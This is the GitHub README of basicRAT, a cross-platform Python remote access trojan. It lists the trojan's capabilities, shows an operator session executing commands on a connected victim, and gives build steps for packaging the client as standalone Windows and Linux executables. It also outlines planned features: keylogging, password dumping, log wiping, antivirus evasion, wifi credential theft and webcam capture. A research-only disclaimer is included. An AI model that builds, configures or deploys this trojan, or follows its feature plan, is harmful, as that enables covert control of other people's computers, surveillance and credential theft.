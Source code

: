 # basicRAT

This is a cross-platform Python 2.x Remote Access Trojan (RAT), basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being actively hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES-256 encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* Standard utilities (cat, ls, pwd, unzip, wget)
* System survey
* Self-destruct
* Primitive port scanning
* Client reconnect

## Usage
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help

cat <file>          - Output a file to the screen.
client <id>         - Connect to a client.
clients             - List connected clients.
execute <command>   - Execute a command on the target.
goodbye             - Exit the server and keep all client connections alive.
help                - Show this help menu.
kill                - Kill the client connection.
ls                  - List files in the current directory.
persistence         - Apply persistence mechanism.
pwd                 - Get the present working directory.
quit                - Exit the server and destroy all client connections.
rekey               - Regenerate crypto key.
scan <ip>           - Scan top 25 TCP ports on a single host.
selfdestruct        - Remove all traces of the RAT from the target system.
survey              - Run a system survey.
unzip <file>        - Unzip a file.
wget <url>          - Download a file from the web.

[?] basicRAT> clients
ID - Client Address
 1 - 127.0.0.1

[?] basicRAT> client 1
Client 1 selected.

[1] basicRAT> execute uname -a
Running execute...
Linux meerkat 4.10.13-1-ARCH #1 SMP PREEMPT Thu Apr 27 12:15:09 CEST 2017 x86_64 GNU/Linux

execute completed.
```

## Build a stand-alone executable
Keep in mind that before building you will likely want to modify both the `HOST` and `PORT` variables located at the top of `basicRAT_client.py` to fit your needs.

On Linux you will need Python 2.x, [PyInstaller](http://www.pyinstaller.org/), and pycrypto. Then run something like `pyinstaller2 --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone ELF executable.

On Windows you will need Python 2.x, PyInstaller, pycrypto, pywin32, and pefile. Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone PE (portable executable).

## Todo
* Interactive shell
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, etc
* Persistence (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: cron jobs, services, modprobe
  * macOS: LaunchAgent, LaunchDaemons
* Privilege Escalation (getsystem-esque, dirty cow)
* Common C2 Protocols (HTTP, DNS)
* Clean log files
    * Linux: bash history, var logs, audit logs, etc
    * Windows: Event logs, prefetch, etc
* Screenshot
* Keylogger
* Expand toolkit (unrar, sysinfo)
* Scanning utilities (probe scan / ping sweep, scanning subnet)
* Password dumping (mimikatz / gsecdump)
* Tunneling / Pivoting (ssh)
* Anti-virus detection and evasion
* VM and Sandbox detection
* Exfil browser history
* Search file system for sensitive information using regex
    * addresses, credit cards numbers, socials, PII, etc
* Detect web cameras and take snapshots
* Steal wifi passwords

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)

## Thanks
* [@bozhu](https://github.com/bozhu), AES-GCM Python implementation.
* [@reznok](https://github.com/reznok), multiple client connection prototype.

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
